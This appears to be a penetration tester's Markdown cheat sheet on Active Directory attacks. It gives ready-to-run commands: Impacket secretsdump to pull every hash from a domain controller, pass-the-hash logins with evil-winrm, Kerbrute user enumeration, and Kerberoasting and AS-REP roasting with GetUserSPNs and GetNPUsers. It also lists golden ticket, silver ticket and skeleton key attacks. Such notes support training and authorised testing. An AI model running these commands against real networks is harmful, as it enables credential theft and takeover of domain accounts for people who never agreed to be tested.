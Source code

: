 ## NTLM Authentication
### Impacket Scripts 
If you have creds for the backup account for domain controller: can dump all hashes    

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup:backuppassword@domain.local
    
Pass the Hash: use psexec or evil-winrm to login with username/ hash (doesn't neeed to be cracked)    

    evi-winrm -i 127.0.0.1 -u username -H [NTLM hash]  

## Kerberos (Port 88)   
Tools: [Kerbrute](https://github.com/ropnop/kerbrute), [Rubeus](https://github.com/GhostPack/Rubeus)   
[Messing With Kerberos Using Rubeus](https://endark.gitbook.io/kb/windows/lab-attacks/messing-with-kerberos-using-rubeus) 
[Kerberos Tickets](https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel)   
[Kerberos Cheat Sheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)  
[How Kerberos Works](https://www.tarlogic.com/blog/how-kerberos-works/)  


    ./kerbrute userenum userlist.txt -d [name] --dc [name]     
    
## Kerberos Attacks 

Kerbrute Enumeration (No domain access needed) 

Kerberoasting (Access as any user needed) 

AS-REP Roasting with Rubeus and Impacket (Access as any user needed)  

Overpass the Hash / Pass the Key (PTK)  

Pass the Ticket (Access to user on the domain needed)  

Golden/Silver Ticket Attacks (Domain admin needed / Service hash needed) 

Skeleton key attacks using mimikatz (Domain Admin needed) 

### Kerbrute Enumeration 
No domain access needed 

Kerbrute: https://github.com/ropnop/kerbrute
/usr/share/wordlists/ADUsers.txt

### Kerberoasting  
Check for Kerberoasting with Impacket -> SPNs 

    GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

Kerberoasting with Impacket

    python3 GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>  
    sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip <ip> -request
     